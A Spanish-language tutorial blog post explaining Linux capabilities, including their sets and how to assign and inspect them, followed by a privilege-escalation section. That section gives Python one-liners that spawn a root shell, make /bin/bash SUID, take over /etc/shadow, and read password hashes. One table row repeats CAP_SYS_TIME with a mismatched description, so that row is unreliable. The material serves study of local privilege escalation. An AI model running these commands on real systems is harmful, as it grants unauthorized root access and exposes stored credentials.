 ```yaml
---
title: Explotación de las Capabilities
date: 2021-12-30 12:15:09 -0500
categories: [Privilege Escalation, Linux]
tags: [privesc,linux,capabilities]
image:
  path: https://i.ibb.co/Lt5fgcZ/explotacion-de-las-capabilities.png 
  alt: Explotación de las Capabilities 
---
```


Anteriormente, hablamos de los permisos SUID (setuid), te hago recordar esto porque quizás esto es algo parecido, pero no.

La diferencia entre estos es que si tenemos un binario con permisos SUID y ejecutas el binario, directamente asumes el rol del propietario de forma temporal. Pero si el binario tiene asignado una capabilitie, solo se le permite ejecutar ciertas acciones privilegiadas, más no asumir el rol del propietario.

## ¿Qué son las capabilities?

Las capabilities son atributos especiales en el kernel de Linux que otorgan privilegios específicos a procesos y programas que normalmente están reservados para procesos cuyo UID sea 0.

Lo bueno de las capabilities para un sysadmin es que con estas podemos dividir el poder de root, de modo que si se logra explotar un binario que tiene una o más capabilities, el daño que causara este será limitado, esto dependerá de las capabilities que le asignes.

## Capabilites Sets

Cada subproceso tiene los siguientes conjuntos de capabilities que contienen cero o más:

### CapInh: Inherited capabilities (Heredadas)
Con el Inherited (Heredado), se puede especificar todas las capabilities que se pueden heredar de un proceso principal.

### CapPrm: Permitted capabilities (Permitidas)

Este es un superconjunto de capabilities que el subproceso puede agregar a los conjuntos de subprocesos permitidos o heredables.

### CapEff: Effective capabilities (Efectivas)

El CapEff representa todas las capabilities que el proceso está usando en este momento (este es el conjunto real de capabilities que el kernel usa para las comprobaciones de permisos).

### CapBnd: Bounding capabilities (Delimitación)

Con el Bounding (Delimitador), es posible restringir las capabilities que un proceso puede recibir.

### CapAmb: Ambient capabilities (Ambientales)

La capabilitie Ambient (Ambientales) se aplica a todos los archivos binarios no SUID sin capabilities de archivo.

## ¿Cómo se usan?

Hay varias capabilities para diferentes propósitos, esta es una lista de las más relevantes:

| Capabilitie | Descripción |
|-|-|
| CAP_SYS_TIME | Configure el sistema y el reloj de hardware en tiempo real. |
| CAP_SYS_TIME | Evita comprobaciones de permisos para enviar señales. | 
| CAP_DAC_OVERRIDE | Evita las revisiones de permisos sobre operaciones de lectura, escritura y ejecución. |
| CAP_CHOWN | Permite cambios arbitrarios en los IDs de usuario y de grupo los ficheros. |
| CAP_NET_RAW | Permite el uso de conectores de tipo RAW y PACKET. | 

Se puede asignar una capabilitie/s de las siguientes formas:
- `setcap cap_setuid+ep /usr/bin/python3.9`
- `setcap cap_setuid,cap_chown+ep /usr/bin/python3.9`

Podemos comprobar que capabilities tiene asignado el subproceso actualmente con: `grep "Cap" /proc/<PID>/status`

-   Usuario **normal**: ![Capabilities - user](https://i.ibb.co/Ksvk45F/User.png)

-   Usuario **root**: ![Capabilities - root](https://i.ibb.co/7Rr4dzy/Root.png)

> **Nota:** El `$$` contiene el PID de la shell que estamos ejecutando.

Veremos números hexadecimales que con la utilidad `capsh`, podemos decodificarlos para obtener los nombres de las capabilities asignadas:

![capsh](https://i.ibb.co/0Z51R7V/capsh.png)

También hay otra manera más fácil con `getpcaps <PID>`.

![getpcaps](https://i.ibb.co/MPBDRRj/getpcaps.png)

- Encontrar capabilities asignadas de forma recursiva desde la raíz: `getcap -r / 2>/dev/null`
- Mostrar las capabilities asignadas en un archivo en específico: `getcap /usr/bin/python3.9`
- Podemos remover las capabilities asignadas a un archivo: `setcap -r /usr/bin/python3.9`

## Privilege Escalation

Existe una lista muy larga de las capabilities que existen hoy en día, pero hay algunas en específicas que si le asignas a determinados programas puedes escalar privilegios de forma completa y obtener un shell como usuario root.

> **Nota:** Estas capabilities solo fueron asignadas a `python3.9` para que se les sea fácil entender, pero que quede en claro que este no es el único comando que se puede explotar.

### CAP_SETUID

```terminal
python3.9 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### CAP_FOWNER

```terminal
python3.9 -c 'import os; os.chmod("/bin/bash",40001)'
/bin/bash -p
```

### CAP_CHOWN

Podemos asignarnos como propietario del archivo `/etc/shadow`:

```terminal
python3.9 -c 'import os; os.chown("/etc/shadow",1000,1000)'
```

Si grepeamos por `ENCRYPT` en fichero `/etc/login.defs`, podemos ver que método de encriptado usa:

![login.defs](https://i.ibb.co/JykvKhN/login-defs.png)

para así generar una nueva contraseña con `openssl` y su encriptado correspondiente y remplazarlo para el usuario root. Puedes solicitar ayuda con `openssl passwd --help` para crear el tipo de hash para la contraseña.

Ejemplo: `openssl passwd -6`

### CAP_DAC_READ_SEARCH

Con esta capabilitie podemos leer cualquier archivo, en especial el `/etc/shadow` :

```terminal
python3.9 -c 'print(open("/etc/shadow","r").read())'
```

Estas solo fueron algunas, en la página de [GTFOBins](https://gtfobins.github.io/) puedes encontrar más comandos que puedes explotar con diferentes capabilities.

